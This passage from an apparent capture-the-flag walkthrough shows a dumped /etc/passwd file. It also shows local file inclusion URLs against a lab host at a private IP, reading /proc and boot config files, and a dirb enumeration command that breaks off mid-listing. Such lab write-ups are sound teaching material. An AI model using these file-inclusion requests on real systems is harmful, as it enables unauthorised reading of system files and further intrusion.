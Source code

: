 ...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:104:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:105:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:106:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:107:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:110::/home/syslog:/bin/false
messagebus:x:105:112::/var/run/dbus:/bin/false
uuidd:x:106:113::/run/uuidd:/bin/false
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/bin/false
ntp:x:108:117::/home/ntp:/bin/false
whoopsie:x:109:118::/nonexistent:/bin/false
acid:x:1000:1000:acid,,,:/home/acid:/bin/bash
mysql:x:111:126:MySQL Server,,,:/nonexistent:/bin/false
saman:x:1001:1001:,,,:/home/saman:/bin/bash
{% endcodeblock %}

http://192.168.80.158:33447/Challenge/cake.php shows also the http://192.168.80.158:33447/Challenge/Magic_Box/ URL.

Dirb found http://192.168.80.158:33447/Challenge/Magic_Box/proc, where we put our next focus. 

We wanted to hack the server using `/proc/self/environ` technique, but the server was a recent ubuntu version and we found only reference to session variable [file](http://192.168.80.158:33447/Challenge/include.php?file=/proc/self/fd/14&add=Extract+File).

{% codeblock %}
http://192.168.80.158:33447/Challenge/include.php?file=/proc/cmdline&add=Extract+File
http://192.168.80.158:33447/Challenge/include.php?file=/boot/config-3.19.0-15-generic&add=Extract+File
{% endcodeblock %}

I gave up hacking via /proc, but dirb reveals another files:
{% codeblock %}
root@kali32:~# dirb http://192.168.80.158:33447/Challenge/Magic_Box/  /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -X .html,.php,.ini,.txt,.inc,.zip,.bak,.rar,.xml -fw
